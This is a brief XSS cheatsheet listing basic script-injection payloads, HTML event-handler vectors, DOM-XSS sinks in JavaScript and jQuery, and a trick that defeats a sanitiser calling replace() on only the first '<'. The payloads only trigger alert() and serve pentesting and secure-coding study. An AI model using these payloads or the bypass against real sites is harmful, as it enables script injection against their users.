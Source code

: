```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
---
```


# XSS

## Attack

### Basic payload

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">
```

More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### Vectors

If you can control the `href` tag of an anchor (`<a>` element). You can try to set the `href` value to `javascript:alert()`.

### HTML Events

Forms Events :

```
onblur
onchange
oncontextmenu
onfocus
oninput
oninvalid
onreset
onsearch
onselect
onsubmit
```

Keyboard events :

```
onkeydown
onkeypress
onkeyup
```

Mouse events :

```
onclick
ondblclick
onmousedown
onmousemove
onmouseout
onmouseover
onmouseup
onmousewheel
onwheel
```

Drag events :

```
ondrag
ondragend
ondragenter
ondragleave
ondragover
ondragstart
ondrop
onscroll
```

Clipboard events :

```
oncopy
oncut
onpaste
```

Media events :

```
onabort
oncanplay
oncanplaythrough
oncuechange
ondurationchange
onemptied
onended
onerror
onloadeddata
onloadedmetadata
onloadstart
onpause
onplay
onplaying
onprogress
onratechange
onseeked
onseeking
onstalled
onsuspend
ontimeupdate
onvolumechange
onwaiting
```

Misc events :

```
ontoggle
```

> Source [www.w3schools.com](https://www.w3schools.com/tags/ref_eventattributes.asp).

### DOM XSS

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()  
document.writeln()  
document.domain  
element.innerHTML  
element.outerHTML  
element.insertAdjacentHTML  
element.onevent  
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()  
after()  
append()  
animate()  
insertAfter()  
insertBefore()  
before()  
html()  
prepend()  
replaceAll()  
replaceWith()  
wrap()  
wrapInner()  
wrapAll()  
has()  
constructor()  
init()  
index()  
jQuery.parseHTML()  
$.parseHTML()
```

> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).

## Bypass

### Replace function

The `replace` function only replace the first occurence.

```js
> "<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;img src=x onerror='alert()'>"


> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;<img src=x onerror='alert()'>"
```


